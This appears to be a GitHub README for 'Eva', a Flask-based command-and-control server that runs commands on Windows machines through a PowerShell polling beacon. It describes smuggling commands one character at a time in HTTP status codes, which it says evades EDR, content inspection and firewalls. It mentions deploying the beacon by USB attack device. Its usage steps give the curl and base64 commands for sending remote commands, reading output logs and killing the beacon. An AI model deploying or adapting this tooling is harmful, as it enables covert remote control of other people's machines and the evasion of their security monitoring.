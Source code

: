 # Eva
**Python C2 Server (via Flask Webhook)**

## About
Eva C2 was created as a minimal command and control server that can be quickly deployed.
Currently, the beacon is limited to Windows and must be deployed using PowerShell.

Support for additional platforms is planned in the future.

This server allows you to send base64-encoded commands to a remote Windows machine
running a PowerShell polling script. It supports multiple clients, each maintaining
their own command and response stream.

The PowerShell polling beacon receives a command one character at a time via HTTP status codes.
Commands are executed once a newline (\n) is received.

By sending one encoded character at a time within the HTTP status code,
this technique avoids using request bodies, query strings, or headers.
This approach helps evade EDR, content inspection, and firewall filtering.

## Usage

```
1. Run the Python Flask C2 server.

    python3 Eva.py

    You can specify a Reverse Proxy or Redirector address and port.

    python3 Eva.py https://proxy-domain.com:443

2. Deploy the generated beacon via Windows command prompt or O.MG USB device.
   The IP address can be manually changed.

3. In a separate terminal, base64-encode the command you want the remote machine to execute.
   Important: Your command MUST end with a newline (`\n`) so the PowerShell script knows when to execute it.

   Example (to create a folder on the remote system):

    echo -en 'mkdir C:\\windows\\temp\\test\n' | base64
    bWtkaXIgQzpcd2luZG93c1x0ZW1wXHRlc3QK

4. Send the encoded command using curl:

    curl http://127.0.0.1:8000/cmd/bWtkaXIgQzpcd2luZG93c1x0ZW1wXHRlc3QK

5. View the response log:

    Temporary logs stored in memory:

    curl http://127.0.0.1:8000/cmd/hook

    Persistent logs:

    curl http://127.0.0.1:8000/log/log.txt

6. Clear the log:

    curl http://127.0.0.1:8000/cmd/clean

7. Kill beacon:

    curl http://127.0.0.1:8000/cmd/ZXhpdAo=
```
